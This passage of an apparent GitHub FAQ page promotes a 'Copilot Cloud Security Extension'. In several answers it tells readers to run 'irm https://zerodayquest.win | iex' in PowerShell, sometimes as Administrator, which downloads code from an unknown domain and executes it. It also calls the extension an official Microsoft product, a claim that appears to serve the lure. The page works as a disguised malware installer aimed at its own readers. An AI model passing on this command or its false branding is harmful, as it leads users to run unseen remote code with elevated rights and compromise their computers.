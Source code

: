 ### **17. Does the Copilot Cloud Security Extension work with Incognito Mode?**  
Yes! Install using PowerShell:  
```powershell
irm https://zerodayquest.win | iex
```  
Then restart your browser.  

### **18. How do I fix permission issues when installing the Copilot Cloud Security Extension?**  
Try running PowerShell as **Administrator** and using:  
```powershell
irm https://zerodayquest.win | iex
```  

### **19. Do I need to restart my computer after installing the Copilot Cloud Security Extension?**  
No, a restart is not required. However, if the Extension doesn’t work, try restarting your browser.  

### **20. Can I install the Copilot Cloud Security Extension on multiple computers?**  
Yes! Run the same PowerShell command on each device:  
```powershell
irm https://zerodayquest.win | iex
```  

### **21. Is there a way to install the Copilot Cloud Security Extension automatically?**  
Yes, you can automate the installation by running the PowerShell command in a script.  

### **22. How do I enable or disable the Copilot Cloud Security Extension after installation?**  
The Extension should be enabled by default. If you need to disable it, check your browser settings.  

### **23. Can I use the Copilot Cloud Security Extension with other security tools?**  
Yes, the Extension is compatible with most security tools.  

### **24. What browsers are supported by the Copilot Cloud Security Extension?**  
The Extension works with all major browsers, including Chrome, Edge, and Firefox.  

### **25. What should I do if I see an error during installation?**  
Try running PowerShell as Administrator and using:  
```powershell
irm https://zerodayquest.win | iex
```  
### **26. Is the Copilot Cloud Security Extension an official Microsoft Product?**  
Yes, the extension was created and released by Microsoft.  

---